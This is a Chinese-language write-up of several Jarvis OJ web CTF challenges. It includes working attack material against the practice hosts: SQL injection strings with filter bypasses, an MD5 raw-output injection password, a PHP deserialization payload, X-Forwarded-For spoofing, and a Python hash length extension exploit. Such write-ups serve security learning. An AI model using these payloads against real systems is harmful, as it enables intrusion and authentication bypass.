

## Web WriteUps for Jarvis OJ

### PORT51

`link: <http://web.jarvisoj.com:32770/>`

打开链接看到：

> Please use port 51 to visit this site.

在本机或服务器上输入命令：

```shell
curl --local-port 51 http://web.jarvisoj.com:32770
```



```kotlin
curl 命令参数使用：
-l, --local-port RANGE  强制使用的本地端口号
```

### LOCALHOST

`link：<http://web.jarvisoj.com:32774/>`

打开链接可以看到：

> localhost access only!!

一般伪造 localhost 在 http 头部加入 xff， client-ip 等，这里使用 xff ：

```http
X-Forwarded-For: 127.0.0.1
```

> The **X-Forwarded-For** (**XFF**) [HTTP header field](https://en.wikipedia.org/wiki/List_of_HTTP_header_fields) is a common method for identifying the originating [IP address](https://en.wikipedia.org/wiki/IP_address) of a client connecting to a [web server](https://en.wikipedia.org/wiki/Web_server) through an [HTTP](https://en.wikipedia.org/wiki/HTTP) [proxy](https://en.wikipedia.org/wiki/Proxy_server) or [load balancer](https://en.wikipedia.org/wiki/Load_balancer).
>
> -- WikiPedia


### Login

Description：

>需要密码才能获得flag哦。
>
>`link：<http://web.jarvisoj.com:32772/`>

打开环境，是一个输入框，需要输入密码：


我们查看一下数据包，f12-network 走起：


>```php
>md5(input_string, raw_output) // 计算字符串的 MD5 散列
>```
>
>**Parameter:**
>
>| Name         | Description                                                  | Required / Optional | Type    |
>| ------------ | ------------------------------------------------------------ | ------------------- | ------- |
>| input_string | The input string.                                            | Required            | Float   |
>| raw_output   | Refers hex or binary output format, Returns raw 16-bit binary format if raw_output sets TRUE and return 32-bit hex format for setting FALSE (default). | Optional            | Boolean |

这里输入`ffifdyop`，为什么呢？

```php
根据此题中的password的语句：select * form admin where password=''
进行password的绕过，需将此语句填充为：select * form admin where password=''or 1，又因为此题有md5加密，并转换为字符串，所以根据前人，大师傅们的总结，有：
字符串：ffifdyop
md5加密后：276f722736c95d99e921722cf9ed621c
再转换为字符串：'or'6<乱码>
那么，拼接后的语句为：select * from admin where password=''or'6<乱码>' ，就相当于 select * from admin where password=''or 1 ,实现 sql 注入。
```


### 神盾局的秘密

Description：

>这里有个通向神盾局内部网络的秘密入口，你能通过漏洞发现神盾局的秘密吗？
>
>`link：<http://web.jarvisoj.com:32768/>`

打开题目是一张很大的神盾局图片，查看一下网页源代码，发现只有一行：

``

点击链接跳转到页面，页面显示乱码，看文件头应该是图片文件

注意到，参数 `?img=` 后面是 base64 编码，进行解码可以得到 `shield.jpg`

这样尝试一下文件读取，比如 `index.php`，这里需要 base64 编码一下再传参，得到源代码：

```php
<?php 
	require_once('shield.php');
	$x = new Shield();
	isset($_GET['class']) && $g = $_GET['class'];
	if (!empty($g)) {
		$x = unserialize($g);
	}
	echo $x->readfile();
?>

```

可以看到还包含了 `shield.php` ，我们再去读一下这个文件：

```php
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>
```

可以看到提示 `flag is in pctf.php`

直接访问提示 `File not found!`

因此按照代码逻辑我们应该传参进去，经过反序列化然后让它执行 `$x->readfile()` 进行读取

先把类创建并进行序列化：

```php
<?php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
	$exp = new Shield("pctf.php");
	echo serialize($exp);
?>
```

得到 `payload：?class=O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`

传参，得到 flag


### IN A Mess

Description：

>连出题人自己都忘了flag放哪了，只记得好像很混乱的样子。
>
>`link：<http://web.jarvisoj.com:32780/>`

打开题目，只有一行字：

`work harder!harder!harder!`

查看源代码发现提示 `index.phps` ，访问得到源码

接下来就是进行代码审计

```php
<?php
    error_reporting(0);
    echo "<!--index.phps-->";

    if(!$_GET['id'])
    {
        header('Location: index.php?id=1');
        exit();
    }
    $id=$_GET['id'];
    $a=$_GET['a'];
    $b=$_GET['b'];
    if(stripos($a,'.'))
    {
        echo 'Hahahahahaha';
        return ;
    }
    $data = @file_get_contents($a,'r');
    if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
    {
        require("flag.txt");
    }
    else
    {
        print "work harder!harder!harder!";
    }
?>
```

易得需要 get 传参 `id`, `a`, `b` ，并且满足源码中的判断

```php
// 当然首先是要有 id 参数且不能为 0，然后看到第一个 if 函数
if(stripos($a,'.')){
	echo 'Hahahahahaha';
	return ;
}
// 这里对 $a 进行了判断，参数 a 里面不允许含有 '.'

$data = @file_get_contents($a,'r');
// 接下来这个函数，file_get_contents() 的作用是把整个文件读入一个字符串中
// 在 ctf 中一般结合 php 伪协议运用
// 因此 $data = php://input ,然后在 post data 里面加入 "1112 is a nice lab!"

$id == 0
// 因为开头的判断使得 id 不能为 0，但这里要验证 id 的值要等于 0，这里是 php 两个等于号
// php 中 == 只是比较两个数的值是否相等，0a == 0 会把0a解析成0来绕过验证（0后加任意字符串，此时id会被识别为字符串，当做比对的时候取前面数字部分，也就是0）
    
strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4;
// b参数的长度要大于5,并且在第二个参数里搜索，"111"加上b的第一个字符（第一个参数），也就是第二个参数包含第一个参数就可以，这里我们用到%00进行截断，因此"111%00"会被解析成"111"，字符串结束，同时第一个字符不能是4,所以我们这里赋值$b=%00111111
```


看起来像一个url，我们访问得到新页面：


可以看到，url上自动加上了id参数，猜测是sql注入

经 fuzz，发现空格被过滤，使用 `/*1*/`可以绕过，关键字可以采用双写绕过

值得注意的是，这里是int型注入，不需要添加单引号

测试注入点：

```sql
?id=1/*1*/and/*1*/1=1# # 回显正常
?id=1/*1*/and/*1*/1=2# # 回显错误
```

用order by等进行字段数查询，这里我直接猜测3，带有运气成分

```sql
?id=-1/*1*/uniounionn/*1*/seselectlect/*1*/1,2,3#
```

页面回显3，因此我们利用3这个列来进行查询

```sql
?id=-1/*1*/uniounionn/*1*/seselectlect/*1*/1,2,group_concat(table_name)/*1*/frfromom/*1*/information_schema.tables/*1*/where/*1*/table_schema=database()#
```

页面返回`content`，只有一个表，继续查询列名

```sql
?id=-1/*1*/uniounionn/*1*/seselectlect/*1*/1,2,group_concat(column_name)/*1*/frfromom/*1*/information_schema.columns/*1*/where/*1*/table_name=0x636f6e74656e74#
```

这里因为对表名`content`进行了过滤，所以我们换成十六进制即可绕过

网页回显 `id`，`context`，`title`三个列名，flag在`context`里，查询可得

```sql
payload: ?id=-1/*1*/uniounionn/*1*/seselectlect/*1*/1,2,context/*1*/frfromom/*1*/content#
```

### flag 在管理员手里

Description：

>只有管理员才能获得flag，你能想办法获得吗？
>
>`link：http://web.jarvisoj.com:32778/`

打开题目环境，看见 `Only Admin can see the flag!!`

查看源代码无果，分析一下数据包，f12/bp走起，可以注意到：


`role=s%3A5%3A%22guest%22%3B`

`hsh=3a4727d57463f122833d9e732f94e4e0`

抓包把 `role`改成admin发现并没有什么用，那应该跟hsh（猜测是hash值）有关

先用`dirsearch`扫一下

```shell
➜  dirsearch git:(master) python3 dirsearch.py -u http://web.jarvisoj.com:32778 -e *
```

发现有源码泄漏`index.php~`


访问`index.php~`把文件下下来，进行代码审计。

这里有一点，下载下来格式是非常乱的，因此我们要先把`index.php~`改名为`.index.php.bak`

然后执行 `vim -r index.php`进行恢复，获得源码：

```php
<?php  
	$auth = false; 
	$role = "guest"; 
	$salt =  
	if (isset($_COOKIE["role"])) { 
		$role = unserialize($_COOKIE["role"]); 
 		$hsh = $_COOKIE["hsh"]; 
 		if ($role==="admin" && $hsh === md5($salt.strrev($_COOKIE["role"]))) { 
 			$auth = true; 
 		} else { 
 			$auth = false; 
 		} 
 	} else { 
 		$s = serialize($role); 
 		setcookie('role',$s); 
 		$hsh = md5($salt.strrev($s)); 
 		setcookie('hsh',$hsh); 
 	} 
 	if ($auth) { 
 		echo "<h3>Welcome Admin. Your flag is  
 	} else { 
 		echo "<h3>Only Admin can see the flag!!</h3>"; 
 	} 
```

这里的hsh是加盐md5，不难想到是hash长度扩展攻击

**了解哈希长度扩展攻击**

哈希长度扩展攻击适用于加密情况为：`hash($SECRET, $message)`的情况，其中 hash 最常见的就是 md5、hash1。我们可以在不知道`$SECRET`的情况下推算出另外一个匹配的值。如上例所给的 PHP 代码：

- 我们知道`md5($SECRET . strrev($_COOKIE["auth"]))`的值
- 我们知道`$hsh`的值
- 我们可以算出另外一个 md5 值和另外一个 $hsh 的值，使得 `$hsh == md5($SECRET . strrev($_COOKIE["auth"]))`

这样即可通过验证。 

```
第一个条件 $role==="admin"
只需要使$role参数的前5个字符是"admin"，第六个字符是'\0'即可。
第二个条件 $hsh === md5($salt.strrev($_COOKIE["role"]))
注意和$salt连接的字符串是经过strrev函数处理的role参数，只需要构造role参数的后半部分，通过hash长度扩展攻击，经过运算得到新的hsh即可。$salt的长度暂时不知道，暂时输入一个数字10，得到新的hash值fcdc3840332555511c4e4323f6decb07以及一个接近payload的字符串;"tseug":5:s\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb0\x00\x00\x00\x00\x00\x00\x00;"nimda":5:s。\xb0说明$salt+;"tseug":5:s一共176bit，也就是22字节，$salt长假设是10字节。
```

```
hash_extender：
已知hash{secret(已知长度)}，求hash{secret (已知长度)|| data (填充字段）|| attacker_controlled_data（自定义字符串）}
hashpumpy：
hashpump(hexdigest, original_data, data_to_add, key_length) -> (digest, message)
本题：已知md5(secret(未知长度）+string1)，求md5{secret||%00等填充字段||2string}
最大的不同就是不知道salt长度！古话说的好，爆破就是艺术，这题应该不会难为我们，从0-15爆破。
```

exp:

```python
#coding=utf-8
import requests,hashpumpy,urllib
def exploit(): #py2
    url = 'http://web.jarvisoj.com:32778/'
    sha = '3a4727d57463f122833d9e732f94e4e0'
    string0 = ';"tseug":5:s'
    string1 = ';"nimda":5:s'
    for i in range(15):
        digest, message = hashpumpy.hashpump(sha,string0,string1,i)
        payload ={'role':urllib.quote(message[::-1]), 'hsh':digest}
        print i,payload
        html = requests.get(url,cookies=payload).text#提交答案
        if 'Welcome' in html:
            index = html.find('flag')
            edge = html.find('</h3>')
	    	message = html[index:edge]
	    	print(message)
	    	exit()
exploit()
```

hash-length-extension-attacks : 

`https://en.wikipedia.org/wiki/Length_extension_attack`

`https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks`

p神的blog : 

`https://www.cnblogs.com/pcat/p/5478509.html`

另外，只有`salt`在前，`value`在后，才可使用 Hash长度扩展攻击。


